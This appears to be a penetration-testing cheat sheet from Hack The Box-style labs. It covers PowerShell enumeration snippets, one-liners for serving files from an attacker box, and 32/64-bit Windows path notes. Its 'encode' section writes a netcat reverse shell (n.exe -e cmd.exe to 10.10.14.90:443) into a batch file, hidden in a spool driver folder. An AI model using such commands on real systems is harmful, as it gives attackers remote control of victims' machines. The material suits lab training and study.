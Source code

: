### ps1

```powershell
//print
Write-Host "memberof name: " $obj.Properties.member
Write-Host  "------------------------"

//nslookup
[System.Net.Dns]::GetHostAddresses($server) | select IPAddressToString -ExpandProperty IPAddressToString

```

## encode
+ on windows, add code to bat file, encode is recommanded.

```bash
## powershell encode
echo '\windows\system32\spool\drivers\color\n.exe -e cmd.exe 10.10.14.90 443' | out-file -encoding ASCII  clean.bat

## or append. 
echo ""  | out-file -encoding ASCII -append clean.bat
echo '\windows\system32\spool\drivers\color\n.exe -e cmd.exe 10.10.14.90 443' | out-file -encoding ASCII -append clean.bat
```

# File transfer

## kali web
```bash
python -m SimpleHTTPServer 7331
python3 -m http.server 7331

-S  跟ip 端口
php -S 0.0.0.0:8000

ruby -run -e httpd . -p 9000
busybox httpd -f -p 10000
```

### about 64/32
[lab-bethany],[htb-optimum]

关于32/64 bit shell run 64bit exploit
> https://www.youtube.com/watch?v=kWTnVBIpNsE
> https://spencerdodd.github.io/2017/07/20/WOW64/
> https://0xdf.gitlab.io/2021/03/17/htb-optimum.html

||32 bit folder|64 bit folder|
|:---|:---|:---|
|32 bit session|C:\Windows\system32\ | C:\Windows\systemNative\|
|64 bit session|c:\windows\sysWoW64\ | C:\Windows\system32\|
